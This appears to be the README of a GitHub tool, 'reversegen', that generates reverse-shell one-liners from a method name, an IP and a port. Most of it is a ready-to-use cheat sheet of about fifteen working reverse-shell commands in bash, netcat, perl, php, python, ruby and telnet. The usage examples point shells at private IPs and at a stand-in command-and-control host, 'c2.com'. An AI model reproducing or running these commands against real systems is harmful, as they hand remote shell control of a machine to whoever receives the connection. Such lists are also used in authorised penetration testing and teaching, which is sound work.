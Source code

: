 # Reverse Shell Generator

Sometimes searching the internet for a reverse shell and changing its values is a pain, that's what this tool is for.

When executed it prints out the reverse shell (so you can pipe it to `xclip` and rapidly paste it) and writes it to a file in case you need it later.

## Installation

```
chmod +x reversegen
sudo ln -s $(pwd)/reversegen.py /usr/local/bin/reversegen
```

## Usage:

```
reversegen <Method> <IP> <Port>
```

Example of usage: 

```
reversegen python 192.168.1.10 4444
reversegen python c2.com 4444
```

Example of copying the result:

```
reversegen bash 10.10.1.14 1234 | xclip -selection clipboard
reversegen bash c2.com 1234 | xclip -selection clipboard
```

## Available Methods

- bash: `bash -i >& /dev/tcp/IP/PORT 0>&1`

- bash2: `0<&196;exec 196<>/dev/tcp/IP/PORT; sh <&196 >&196 2>&196`

- netcat: `nc -e /bin/sh IP PORT`

- netcat2: `/bin/sh | nc IP PORT`

- netcat3: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f]`

- netcat4: `rm -f /tmp/p; mknod /tmp/p p && nc IP PORT 0/tmp/p`

- perl: `perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

- perl2 (Doesn't use */bin/sh*): `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"IP:PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

- perl3 (For Windows): `perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"IP:PORT");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

- php: `php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'`

- python: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- ruby: `ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

- ruby2 (Doesn't use */bin/sh*): `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("IP","PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

- ruby3 (For Windows): `ruby -rsocket -e 'c=TCPSocket.new("IP","PORT");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

- telnet: `rm -f /tmp/p; mknod /tmp/p p && telnet IP PORT 0/tmp/p`

## Credits for the Reverse Shells to:

- [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Bernardo Damele](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
